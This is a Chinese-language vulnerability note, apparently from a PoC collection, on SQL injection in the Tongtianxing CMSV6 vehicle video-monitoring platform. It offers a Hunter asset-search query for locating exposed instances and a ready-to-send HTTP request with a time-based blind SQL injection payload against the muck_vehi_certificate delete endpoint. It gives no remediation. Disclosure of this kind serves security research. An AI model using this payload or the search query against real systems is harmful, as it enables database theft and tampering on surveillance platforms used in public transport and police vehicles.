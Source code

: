 # 通天星CMSV6车载视频监控平台 muck_vehi_certificate存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台muck_vehi_certificate存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/AThSrn99nkgiA3Y4/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-994540.png)

# 四、漏洞复现
```rust
GET /muck_vehi_certificate/delete;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29 HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717266956493-8a4748d9-9bb9-499e-a7da-7fb88f1bc75f.png](./img/AThSrn99nkgiA3Y4/1717266956493-8a4748d9-9bb9-499e-a7da-7fb88f1bc75f-451592.png)

```rust
GET /muck_vehi_certificate/delete;downloadLogger.action?ids=1 HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717266974188-6ec35cdb-4b33-457b-8191-8a4af2d9c1a4.png](./img/AThSrn99nkgiA3Y4/1717266974188-6ec35cdb-4b33-457b-8191-8a4af2d9c1a4-848409.png)



> 更新: 2024-12-28 13:05:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qzw4gmu01hbpgfik>